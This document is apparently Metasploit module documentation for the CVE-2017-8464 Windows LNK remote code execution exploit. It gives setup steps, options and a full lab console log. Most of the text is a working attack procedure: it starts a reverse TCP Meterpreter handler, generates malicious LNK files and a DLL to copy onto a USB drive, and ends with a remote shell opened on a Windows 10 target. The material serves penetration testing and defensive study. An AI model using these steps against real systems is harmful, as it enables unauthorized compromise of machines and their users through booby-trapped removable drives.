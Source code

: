 ## Vulnerable Application

This vulnerability affects any Windows version without the patch for
CVE-2017-8464. The exploit does not appear to work with UNC drives. Because of
this, the exploit DLL file needs to be on a local file system or an USB drive.
A fix was released in the June 2017 Patch Tuesday.

## Vulnerable Setup

To set up the vulnerable environment, install a Windows version without the patch for CVE-2017-8464. To test the bypass, ensure that MS10-046 & MS15-020 are exploitable.

## Verification Steps

### Start a handler
  1. `use exploit/multi/handler`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit -j`

### Run the exploit

  1. `use exploit/windows/fileformat/cve_2017_8464_lnk_rce`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit`

### Copy files to USB drive & open on vulnerable system

  1. `cp /root/.msf4/local/* [USB drive path]`
  2. Insert device in target machine and browse to it

## Options

**FILENAME**

The file name of the LNK file. This file name can be renamed later. If the value is not set, a random name will be generated.

**DLLNAME**

The file name of the DLL file. This file cannot be renamed, as this will invalidate the LNK file(s). If not set, a random name will be generated.

**DRIVE**

Drive letter assigned to USB drive on victim's machine. If not set, LNK files for drive D till Z will be created. Copy all these LNK files to the USB drive to increase the chance that the vulnerability will be triggered.

### Windows 10 x64 (Build 14393)

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.197:4444
[*] Starting the payload handler...
msf exploit(handler) > back
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(cve_2017_8464_lnk_rce) > exploit

msf exploit(cve_2017_8464_lnk_rce) > exploit

[*] /root/.msf4/local/kNgYlztVprHPOmHY.dll created, copy it to the root folder of the target USB drive
[*] /root/.msf4/local/SoXXZhgCWEDkbDyA_D.lnk created, copy to the target USB drive
[*] /root/.msf4/local/rfuSAlSFEPmrgsBh_E.lnk created, copy to the target USB drive
[*] /root/.msf4/local/LydLhRBovVRINgUh_F.lnk created, copy to the target USB drive
[*] /root/.msf4/local/xbpnlkcQOYonGpKW_G.lnk created, copy to the target USB drive
[*] /root/.msf4/local/SezkrIUwqIVvMiOZ_H.lnk created, copy to the target USB drive
[*] /root/.msf4/local/UzsJRIdcpoZPpLEj_I.lnk created, copy to the target USB drive
[*] /root/.msf4/local/BxTkakFYhUaxSNyi_J.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dPdanTusElQRKzGZ_K.lnk created, copy to the target USB drive
[*] /root/.msf4/local/cKUaDslpjLshMEpP_L.lnk created, copy to the target USB drive
[*] /root/.msf4/local/RQPOxJeuGqVCQGNB_M.lnk created, copy to the target USB drive
[*] /root/.msf4/local/tLDnpaeIeUavIxqP_N.lnk created, copy to the target USB drive
[*] /root/.msf4/local/VVQOvhpqJYbhINIX_O.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dAIEBrbaixsXjnnm_P.lnk created, copy to the target USB drive
[*] /root/.msf4/local/AoHnIQhKkpnYSOZR_Q.lnk created, copy to the target USB drive
[*] /root/.msf4/local/kZCCppTXKsuGRSCB_R.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vMBPqzoOEoJXhZqQ_S.lnk created, copy to the target USB drive
[*] /root/.msf4/local/ueCsaNzVsljfHKnS_T.lnk created, copy to the target USB drive
[*] /root/.msf4/local/TSCgPoYrFFnZqMsl_U.lnk created, copy to the target USB drive
[*] /root/.msf4/local/QFbXkQeBmCvXezNg_V.lnk created, copy to the target USB drive
[*] /root/.msf4/local/liPaOopqYJbBIrVY_W.lnk created, copy to the target USB drive
[*] /root/.msf4/local/eZiWpyEYbkWHqStW_X.lnk created, copy to the target USB drive
[*] /root/.msf4/local/PawzVPKmvBoSblhA_Y.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vJhDzJUydwYxnLlp_Z.lnk created, copy to the target USB drive
msf exploit(cve_2017_8464_lnk_rce) >
[*] Sending stage (1189423 bytes) to 192.168.146.193
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.193:50020) at 2017-07-25 19:28:27 +0200
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5G8HK7E
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
